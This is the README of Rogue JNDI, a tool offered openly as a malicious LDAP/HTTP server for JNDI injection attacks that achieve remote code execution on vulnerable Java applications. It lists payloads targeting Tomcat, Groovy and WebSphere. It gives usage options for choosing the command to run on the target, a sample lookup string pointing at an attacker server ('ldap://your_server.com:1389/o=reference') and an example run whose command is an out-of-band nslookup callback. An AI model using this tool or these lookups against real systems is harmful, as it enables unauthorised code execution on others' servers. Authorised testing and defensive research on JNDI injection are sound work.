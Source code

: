 ## Rogue JNDI
A malicious LDAP server for JNDI injection attacks.

### Description
The project contains LDAP & HTTP servers for exploiting insecure-by-default Java JNDI API.<br> 
In order to perform an attack, you can start these servers locally and then trigger a JNDI resolution on the vulnerable client, e.g.:
```java
InitialContext.doLookup("ldap://your_server.com:1389/o=reference");
```
It will initiate a connection from the vulnerable client to the local LDAP server.
Then, the local server responds with a malicious entry containing one of the payloads, that can be useful to achieve a Remote Code Execution. 

### Motivation
In addition to the known JNDI attack methods(via remote classloading in references), this tool brings new attack vectors by leveraging the power of [ObjectFactories](https://docs.oracle.com/javase/8/docs/api/javax/naming/spi/ObjectFactory.html).

### Supported payloads
* [RemoteReference.java](/src/main/java/artsploit/controllers/RemoteReference.java) - classic JNDI attack, leads to RCE via remote classloading, works up to jdk8u191 
* [Tomcat.java](/src/main/java/artsploit/controllers/Tomcat.java) - leads to RCE via unsafe reflection in **org.apache.naming.factory.BeanFactory** 
* [Groovy.java](/src/main/java/artsploit/controllers/Groovy.java) - leads to RCE via unsafe reflection in **org.apache.naming.factory.BeanFactory** + **groovy.lang.GroovyShell**
* [WebSphere1.java](/src/main/java/artsploit/controllers/WebSphere1.java) - leads to OOB XXE in **com.ibm.ws.webservices.engine.client.ServiceFactory**
* [WebSphere2.java](/src/main/java/artsploit/controllers/WebSphere2.java) - leads to RCE via classpath manipulation in **com.ibm.ws.client.applicationclient.ClientJ2CCFFactory**

### Usage
```
$ java -jar target/RogueJndi-1.0.jar -h
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Usage: java -jar target/RogueJndi-1.0.jar [options]
  Options:
    -c, --command  Command to execute on the target server (default: 
                   /Applications/Calculator.app/Contents/MacOS/Calculator) 
    -n, --hostname Local HTTP server hostname (required for remote 
                   classloading and websphere payloads) (default: 
                   192.168.1.10) 
    -l, --ldapPort Ldap bind port (default: 1389)
    -p, --httpPort Http bind port (default: 8000)
    --wsdl         [websphere1 payload option] WSDL file with XXE payload 
                   (default: /list.wsdl)
    --localjar     [websphere2 payload option] Local jar file to load (this 
                   file should be located on the remote server) (default: 
                   ../../../../../tmp/jar_cache7808167489549525095.tmp) 
    -h, --help     Show this help
```
The most important parameters are the ldap server hostname (-n, should be accessible from the target) and the command you want to execute on the target server (-c).
 
As an alternative to the "-c" option, you can modify the [ExportObject.java](/src/main/java/artsploit/ExportObject.java) file by putting java code you want to execute on the target server. 

### Example:
```
$ java -jar target/RogueJndi-1.1.jar --command "nslookup your_dns_sever.com" --hostname "192.168.1.10"
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://192.168.1.10:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://192.168.1.10:1389/o=reference to artsploit.controllers.RemoteReference
Mapping ldap://192.168.1.10:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://192.168.1.10:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://192.168.1.10:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://192.168.1.10:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://192.168.1.10:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://192.168.1.10:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://192.168.1.10:1389/o=dbcp2h2 to artsploit.controllers.Dbcp2H2
Mapping ldap://192.168.1.10:1389/o=tomcat-user-database to artsploit.controllers.TomcatMemoryUserDatabase
Mapping ldap://192.168.1.10:1389/o=hikaricph2 to artsploit.controllers.HikariCPH2
Mapping ldap://192.168.1.10:1389/o=druidh2 to artsploit.controllers.DruidH2
Mapping ldap://192.168.1.10:1389/o=hikaricp-h2-local-factory to artsploit.controllers.HikariCPH2LocalFactory
```

### Building
Java v1.7+ and Maven v3+ required
```
mvn package
```

### Disclamer
This software is provided solely for educational purposes and/or for testing systems which the user has prior permission to attack.

### Special Thanks
* [Alvaro Muñoz](https://twitter.com/pwntester) and [Oleksandr Mirosh](https://twitter.com/olekmirosh) for the excellent [whitepaper](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf) on JNDI attacks
* [@zerothoughts](https://github.com/zerothoughts) for the inspirational [spring-jndi](https://github.com/zerothoughts/spring-jndi) repository
* [Moritz Bechler](https://github.com/zerothoughts) for the eminent [marshallsec](https://github.com/mbechler/marshalsec) research
* [Orange Tsai](https://twitter.com/orange_8361) and [Welk1n](https://github.com/welk1n) for the Apache + Groovy gadget

### Links
* An article about [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java) in the Veracode Blog
* [How I Hacked Facebook Again! Unauthenticated RCE on MobileIron MDM](https://blog.orange.tw/2020/09/how-i-hacked-facebook-again-mobileiron-mdm-rce.html) 

### Authors
[Michael Stepankin](https://twitter.com/artsploit)
